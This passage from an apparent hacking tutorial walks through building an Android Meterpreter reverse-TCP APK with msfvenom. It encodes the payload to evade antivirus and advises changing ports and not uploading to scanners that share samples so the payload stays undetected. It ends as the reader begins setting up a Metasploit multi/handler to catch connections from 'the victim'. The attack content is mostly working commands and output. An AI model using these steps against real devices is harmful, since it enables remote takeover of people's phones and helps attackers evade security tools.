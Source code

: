There are loads of options for this exploit, as you can see. The options are divided into two categories. Basic options and Advanced options. You can create a payload just by setting up the basic options. However, advanced options are very important as well. They offer customization as well as play a crucial role to evade threat detection systems.

You can modify them and check how many anti-viruses detect it as a threat. Many online websites allow you to check your payloads. Keep in mind, however, that these systems might store your data and add them to the anti-virus database, rendering your payloads to be detected more often.

**VirusTotal** is a website that allows you to upload a file and check for viruses. There are online virus checkers for almost all the anti-virus packages (**avast**, **avg**, **eset**, etc.). At the end of this article, you’ll see me testing our payload on these websites.

#### Encoding your payload to evade detection <a href="#post-3536-_heading-h.73c8luhs73og" id="post-3536-_heading-h.73c8luhs73og"></a>

Before we create the payload, remember encoders? Encoders are the modules that encrypt the code so it becomes harder for the threat detection systems to detect it as a threat. Let’s see how to encode our payload. At first, list the encoder options available. I’ll use the ruby based encoders by grepping `ruby`:

```
msfvenom -l encoders | grep ruby
    ruby/base64                   great      Ruby Base64 Encoder
```

Let’s set up the basic options and create a basic payload now:

```
msfvenom -p android/meterpreter/reverse_tcp -e ruby/base64 LHOST=192.168.74.128 LPORT=8080 -o /root/Desktop/payload.apk
```

```

[-] No platform was selected, choosing Msf::Module::Platform::Android from the payload
[-] No arch selected, selecting arch: dalvik from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of ruby/base64
ruby/base64 succeeded with size 13625 (iteration=0)
ruby/base64 chosen with final size 13625
Payload size: 13625 bytes
Saved as: /root/Desktop/payload.apk
```

Here, the LHOST is our IP address and LPORT is the port for the connection. You should change the default port to evade easy detection. Now, before we send this payload, we need to set up the handler for the incoming connection. Handler is just a program that will listen on a port for incoming connections, since the victim will connect to us. To do that, we’ll fire up `msfconsole` and search **multi/handler**:

```
search multi/handler
```

```
Matching Modules
================

   #  Name                                                 Disclosure Date  Rank       Check  Description
   -  ‐‐‐‐                                                 ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐  ‐‐‐‐       ‐‐‐‐‐  ‐‐‐‐‐‐‐‐‐‐‐
   0  exploit/linux/local/apt_package_manager_persistence  1999-03-09       excellent  No     APT Package Manager Persistence
   1  exploit/android/local/janus                          2017-07-31       manual     Yes    Android Janus APK Signature bypass
   2  auxiliary/scanner/http/apache_mod_cgi_bash_env       2014-09-24       normal     Yes    Apache mod_cgi Bash Environment Variable Injection (Shellshock) Scanner
```